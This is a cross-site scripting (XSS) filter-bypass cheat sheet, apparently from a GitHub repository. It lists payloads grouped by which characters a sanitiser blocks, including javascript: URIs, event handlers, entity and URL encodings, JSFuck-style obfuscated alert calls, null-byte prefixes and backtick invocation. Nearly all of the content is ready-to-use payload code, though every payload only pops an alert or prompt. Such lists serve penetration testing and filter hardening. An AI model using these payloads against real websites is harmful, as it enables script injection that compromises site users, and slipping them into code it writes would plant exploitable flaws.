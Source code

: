 ### 1.If you cannot escape from the attribute (" is being encoded or deleted)

Try to use this payloads :
```
1) <a href="javascript:alert(1)">Click</a>

2) <a href="&#01;javascript:alert(1)">Click</a>

3) <a src="google.com" onclick="alert(1)">Click</a>
```
Or try to replace " with \u0022, > with \u003e and < with \u003c. So the payload will be:
```
4) \u0022\u003e\u003cimg src=x onerror=alert(1)\u003e\u003cx y=\u0022
```

### 2.If you can escape from the attribute but not from the tag (> is encoded or deleted)

Try to event handlers :
```
1) <input   value"XXXXXXX"   onclick=alert(1)  >Click</input>

2) <input  type:"text" value="XSS"  accesskey="x" onclick="alert(1)" >

3) <img src=x  onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

4) </div><a  src="google.com"  href="javaSCRIPT&colon;alert(/xss/)">XSS</a>

5) <a  href=https://google.com onclick=alert(document.location.hash.substring(1))#{saasasasas}>Click</a>
```
or use encodes:
```
%3cscript%3e
%253cscript%253e
&lt;script&gt;

%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```
### 3.If alert is encoded or deleted

Try to use this payloads :
```
1) <script>$='',_=!$+$,$$=!_+$,$_=$+{},_$=_[$++],__=_[_$$=$],_$_=++_$$+$,$$$=$_[_$$+_$_],_[$$$+=$_[$]+(_.$$+$_)[$]+$$[_$_]+_$+__+_[_$$]+$$$+_$+$_[$]+__][$$$]($$[$]+$$[_$$]+_[_$_]+__+_$+"($)")()</script>

2) <script>[[,$,_,$$,__,$_,_$,$$$,$__,,___]=[![]+[]+!![]][+[]]+[][[]]],$$_=[][$+$_],[,,,$_$,,,_$$,,,,,__$,_$_]=[...$$_+[]],$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$$$_[$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$]($+_+__+_$+$_+__$+[+!!$]+_$_)()</script>

3) <script>
   (
   [
   ,
   O
   ,
   B
   ,
   J
   ,
   E
   ,
   C
   ,
   ,
   ]
   =
   [
   ]
   +
   {
   }
   ,
   [
   T
   ,
   R
   ,
   U
   ,
   E
   ,
   F
   ,
   A
   ,
   L
   ,
   S
   ,
   ,
   ,
   N
   ]
   =
   [
   !
   !
   O
   ]
   +
   !
   O
   +
   B
   .
   E
   )
   [
   X
   =
   C
   +
   O
   +
   N
   +
   S
   +
   T
   +
   R
   +
   U
   +
   C
   +
   T
   +
   O
   +
   R
   ]
   [
   X
   ]
   (
   A
   +
   L
   +
   E
   +
   R
   +
   T
   +
   `
   (
   1
   )
   `
   )
   (
   )
   </script>
   
4) <html>
   <body>
   <head>
   <meta charset="utf-8">   
   </head> 
   <script>
   ᐁ='',ᐃ=!ᐁ+ᐁ,ᐅ=!ᐃ+ᐁ
   ᐊ=ᐁ+{},ᐄ=ᐃ[ᐁ++],ᐆ=
   ᐃ[ᐋ=ᐁ],ᐒ=++ᐋ+ᐁ,ᐗ
   =ᐊ[ᐋ+ᐒ],ᐃ[ᐗ+=ᐊ[ᐁ]
   +(ᐃ.ᐅ+ᐊ)[ᐁ]+ᐅ[ᐒ]+ᐄ
   +ᐆ+ᐃ[ᐋ]+ᐗ+ᐄ+ᐊ[ᐁ]
   +ᐆ][ᐗ](ᐅ[ᐁ]+ᐅ[ᐋ]+ᐃ
   [ᐒ]+ᐆ+ᐄ+"`ᐁᐃ`")()
   </script>
   </html>
   </body>

5) <script>prompt(1)</script>

6) <script>/&/-alert(1)</script>
<script>/&amp;/-alert(1)</script>

7) %00%00%00%00%00%00%00<script>alert(1)</script>     (1.Null bytes are output   2.There is no space character immediately before)


```

### 4.If space is encoded or deleted
```
use tab url encode : %09
<input%09value"XXXXXXX"%09onclick=alert(1)>Click</input>
```

### 5.If () is encoded or deleted
```
<script>alert`1`</script>
```

### 5.If <script> is encoded or deleted try other tags like:
```
SVG, img, iframe 
```
